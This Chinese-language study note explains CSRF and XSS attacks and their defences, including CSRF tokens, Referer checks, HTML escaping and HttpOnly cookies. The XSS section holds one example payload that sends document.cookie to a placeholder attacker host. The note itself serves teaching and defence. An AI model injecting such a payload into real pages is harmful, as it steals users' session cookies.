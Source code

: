 ### 关于XSS和CSRF

#### CSRF（Cross-site request forgery）

> CSRF：简单来说，CSRF就是如果我们登录了一个正常网站A并且在本地生成Cookie，并且未退出的情况下，同时又访问了另一个危险网站B，网站B里面有一段恶意脚本，通过利用（图片的src避开跨域限制之类）本地的cookies来（冒充用户）通过验证并且成功访问A网站的接口来实现一些操作。[具体浏览](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)

若是没有同源策略，那么网络安全可能就会差上很多，不仅仅是不同页面之间可以相互访问对方的服务接口，还因为是cookies可以随意被别的网页上的脚本访问并且可以直接访问带权限的接口，这对于恶意网站来说，想要操作用户的账户做任何操作实在是太轻松了。所以同源策略是必须的。

整理一下攻击过程：

1. 用户 C 登录信任网站 A
2. **通过验证，在用户 C 处产生 A 的 cookie**
3. **用户在没有登出 A 的情况下，访问危险网站 B**
4. B 要求访问网站 A，发出一个请求
5. 用户 C 的浏览器就会访问 A，并带着 cookie
6. 网站 A 根据 cookie 拿到用户 C 权限，但是却做着 B 的请求


**CSRF 之所以出现就是因为 Web 的身份验证机制，服务器虽然可以通过 cookie，session 来保证一个请求是来自于某个用户的，但是却无法保证该请求是不是用户批准发送的**



**防范原理：**

**能够识别出哪些请求是非正常用户主动发起的**。这就要求我们**在请求中嵌入一些额外的授权数据，让网站服务器能够区分出这些未授权的请求**



**防范策略：**

- 使用`post`请求


- 验证 `HTTP Referer` 字段，利用 `HTTP` 头中的 `Referer` 判断请求来源是否合法，这个字段记录了 HTTP 请求的来源地址
  - `Referer` 的值是由浏览器提供的，不可全信，低版本浏览器下 `Referer` 存在伪造风险。
  - 用户自己可以设置浏览器使其在发送请求时不再提供 `Referer` 时，网站将拒绝合法用户的访问。
- 使用验证码
- 以`HTTP` 请求参数的形式加入一个随机产生的 `token` 交由服务端验证。（若没带上`token`或不正确，则请求失败）
- 在 `HTTP` 头中自定义属性并验证 `One-Time Tokens`，将 `token` 放到 `HTTP` 头中自定义的属性里。通过 `XMLHttpRequest` 的异步请求交由后端校验，并且一次有效。





#### XSS

> 还有一种常见的被动攻击方式：XSS，应该是在网站中插入代码来盗取用户的cookie。原理是通过JavaScript代码注入页面。

- `Reflected XSS`（基于反射的 `XSS` 攻击）：主要通过利用**系统反馈**行为漏洞，并欺骗用户主动触发，从而发起 `Web` 攻击。
- `Stored XSS`（基于存储的 `XSS` 攻击）：`Stored XSS` 和 `Reflected XSS` 的差别就在于，具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。
- `DOM-based or local XSS`（基于 `DOM` 或本地的 `XSS` 攻击）：`DOM` 型 `XSS` 其实是一种特殊类型的反射型 `XSS`，它是基于 `DOM` 文档对象模型的一种漏洞。可以通过 `DOM` 来动态修改页面内容，从客户端获取 `DOM` 中的数据并在本地执行。基于这个特性，就可以利用 `JS` 脚本来实现 `XSS` 漏洞的利用。

```js
// 常见的XSS插入到DOM的代码，盗取用户的cookie
(new Image()).src = 'http://xxx.cc/steal-cookie?cookies=' + document.cookie
```

**防范策略：**

- 在客户端和服务端对用户输入进行过滤，在客户端对输出进行转义，主要转义类似`<`，`>`，`'`，`"`，`&`这些字符。

  - 比如说，当页面上直接使用`innerHTML`来塞入一些信息时，最好先把这段HTML字符串进行转义，把`<`转成`&lt;`，把`>`转成`&gt;`，通过**把标签相关的字符转化为转成字符实体** ，这样子就能防止一些插入HTML动态执行脚本的行为。

    ```js
    function encodeHTML (a) {
      return String(a)
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/"/g, "&quot;")
        .replace(/'/g, "&#39;")
    }
    ```

- 使用 `HTTP only` 的 `Cookie`。